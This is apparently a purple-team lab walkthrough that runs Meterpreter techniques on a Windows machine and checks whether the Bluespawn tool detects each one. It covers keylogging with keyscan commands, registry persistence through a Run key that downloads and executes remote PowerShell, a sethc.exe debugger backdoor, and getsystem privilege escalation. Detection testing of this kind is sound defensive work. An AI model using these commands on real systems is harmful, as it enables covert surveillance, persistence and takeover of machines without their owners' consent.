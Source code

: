 ![](attachments/meterpretersession.png)


Now, let’s look at keystroke logging.

To learn more about this check out MITRE:

https://attack.mitre.org/techniques/T1056/

Also, below is a list of just some of the threat groups that use this technique:

<img width="1072" height="723" alt="image" src="https://github.com/user-attachments/assets/c005128b-124b-4bcc-9bf7-8516ca4be2d6" />


Run commands

meterpreter > `keyscan_start`

Go and type something on your Windows system.

meterpreter > `keyscan_dump`

![](attachments/Clipboard_2020-06-15-13-52-00.png)


Go and check Bluespawn.  Did it detect it?

Now, let’s play with registry persistence.

To learn more about this check out MITRE:

https://attack.mitre.org/techniques/T1547/

Here are just some of the groups that use this technique:

<img width="1072" height="533" alt="image" src="https://github.com/user-attachments/assets/86040c18-29cd-4d16-95dd-84e45dcb1f63" />


meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

![](attachments/Clipboard_2020-06-15-14-00-53.png)

Go and check Bluespawn.  Did it detect it?

Next, let’s play with privilege escalation.

Here is al link to more info about this from MITRE:

https://attack.mitre.org/techniques/T1543/

Here are just some of the groups that use this technique:

<img width="1087" height="489" alt="image" src="https://github.com/user-attachments/assets/41b91eb5-8505-48a3-bee0-09cbb87f9dca" />


meterpreter >`getsystem`
